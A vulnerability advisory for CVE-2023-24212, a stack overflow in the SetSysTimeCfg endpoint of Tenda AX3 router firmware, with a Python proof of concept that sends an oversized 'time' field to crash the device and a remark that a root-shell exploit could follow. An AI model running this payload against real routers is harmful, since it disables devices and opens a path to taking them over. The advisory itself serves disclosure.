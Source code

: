 # Tenda AX3 V16.03.12.11 Stack overflow vulnerability

## CVE-2023-24212

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-3476.html

## Affected version

![](https://github.com/w0x68y/cve-lists/blob/main/Tenda/vuln/imgs/1.png)

## Vulnerability details

![](https://github.com/w0x68y/cve-lists/blob/main/Tenda/vuln/imgs/2.png)

![](https://github.com/w0x68y/cve-lists/blob/main/Tenda/vuln/imgs/3.png)

In /goform/SetSysTimeCfg, First, the user will pass in the timeType. When the timeType is manual, the user can pass in time, and then use sscanf to assign the value of time to v14~v27. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeType = "manual"

time = "2023-01-15 "
time += "a" * 0x2000

r = requests.post(url, data={'timeType': timeType, 'time': time})
print(r.content)
```

Then you can see the router crash, and finally you can write exp to get rootshell
